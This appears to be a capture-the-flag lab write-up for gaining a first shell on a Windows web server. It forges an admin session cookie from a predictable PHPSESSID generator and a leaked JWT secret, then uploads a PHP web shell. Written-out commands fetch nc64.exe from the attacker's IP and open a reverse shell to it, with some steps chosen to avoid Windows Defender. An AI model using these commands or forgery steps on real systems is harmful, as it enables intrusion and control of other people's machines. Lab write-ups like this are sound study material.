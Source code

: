 # Getting initial reverse shell as www-data
## Generating cookie for paul as admin user to upload files
Note: Only paul as admin user can upload files and access file upload page. Cookie is composed of two portions `PHPSESSID` and `JWT Token`.
Source code for generating `PHPSESSID` portion of  cookie is.
```php
<?php
\/**
 * @param string $username  Username requesting session cookie
 *
 * @return string $session_cookie Returns the generated cookie
 *
 * @devteam
 * Please DO NOT use default PHPSESSID; our security team says they are predictable.
 * CHANGE SECOND PART OF MD5 KEY EVERY WEEK
 * *\/
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
```
We can write php script to generate `PHPSESSID` portion of cookie for paul.
```php
<?php
$name = "paul";
function makesession($username,$seed){
    $max = strlen($username) - 1;
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
for($i = 0;$i < strlen($name); $i++){
    echo makesession($name,$i). "\xA";
}
```
Which gives following `PHPSESSID`.
```bash
paula2a6a014d3bee04d7df8d5837d62e8c5
paul61ff9d4aaefe6bdf45681678ba89ff9d
paul8c8808867b53c49777fe5559164708c3
paul47200b180ccd6835d25d034eeb6e6390
```
We also need JWT token as paul cookie which can be generated via following website having secret key as `6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e`(found in `portal/includes/filecontroller.php`). Webiste for generating [JWT Token](https://jwt.io/).
![[Pasted image 20210730114707.png]]
## Logging in as  paul admin and accessing file upload page
Logged in as paul admin user using paul cookie.
![[Pasted image 20210730115238.png]]
Only paul ad admin user can access file upload page , normal user will be redirected to index page. So file upload page is.
![[Pasted image 20210730115450.png]]
## Uploading php file to execute system commands
In php file to be uploaded for Remote Code Execution, `shell_exec` command will be used instead of `SYSTEM` command as `SYSTEM` command will flagged by Windows Defender.
![[Pasted image 20210730115851.png]]
File which was uploaded has reflected in uploads folder.
![[Pasted image 20210730120009.png]]
Uploading nc64.exe to get reverse shell using command `powershell Invoke-WebRequest "http://10.10.14.105:80/nc64.exe" -OutFile "nc64.exe"` as nishang reverse shell was causing problems with windows defender.
![[Pasted image 20210730120522.png]]
## Getting initial reverse shell as www-data
Got initial reverse shell as www-data using command `nc64.exe%20-e%20powershell%2010.10.14.105%209001` in url after `clarkey`.
![[Pasted image 20210730120731.png]]


